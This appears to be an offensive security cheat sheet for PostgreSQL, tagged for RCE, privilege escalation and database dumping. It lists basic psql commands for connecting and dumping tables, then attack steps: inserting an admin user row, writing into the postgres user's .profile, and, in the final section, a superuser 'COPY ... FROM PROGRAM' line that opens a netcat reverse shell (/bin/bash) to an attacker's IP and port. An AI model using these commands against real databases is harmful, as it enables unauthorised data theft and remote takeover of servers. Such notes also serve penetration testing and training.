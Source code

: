 ```yaml
---
title: "Postgresql"
date: 2024-7-9
tags: ["Database Dumping", "Privilege Escalation In Databases", "Postgresql", "RCE", "Database"]
---
```


### Connect

```console
psql -h 127.0.0.1 -U <USER> -p 5432 -d <DB_NAME>
```

```console
psql 'postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>'
```

### Basic

```console
# Show databases
\list
```

```console
# Use database
\connect <DB_NAME>
```

```console
# Show tables in current database
\dt
```

```console
# Dump data from table
select * from "<TABLE_NAME>";
```

```console
# Insert data into table (e.g)
insert into "<TABLE_NAME>" (username, password, role) values ('user', 'password', 'admin');
```

```console
# Write text
copy (select '<STRING>') to '/var/lib/postgresql/.profile';
```

```console
# Exit
\q
```

---

### RCE

```console
# Only superuser
CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM 'nc -e /bin/bash <LOCAL_IP> <LOCAL_PORT> &'
```